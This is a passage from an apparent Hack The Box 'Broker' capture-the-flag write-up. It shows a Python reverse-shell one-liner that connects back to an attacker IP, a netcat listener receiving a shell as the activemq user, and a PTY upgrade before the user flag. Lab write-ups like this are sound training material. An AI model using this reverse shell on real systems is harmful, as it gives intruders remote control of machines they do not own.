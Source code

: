 This gets us a pseudoshell, but lets start up a netcat listener and issue a one liner to get a proper reverse shell back:

Lets run:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.60",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we catch a shell back:

```
┌──(ryan㉿kali)-[~/HTB/Broker]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.243] 42396
$ whoami
whoami
activemq
$ hostname
hostname
broker
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
activemq@broker:/opt/apache-activemq-5.15.15/bin$ 
```

We can now grab the user.txt flag:

![broker_user.png](../assets/broker_assets/broker_user.png)
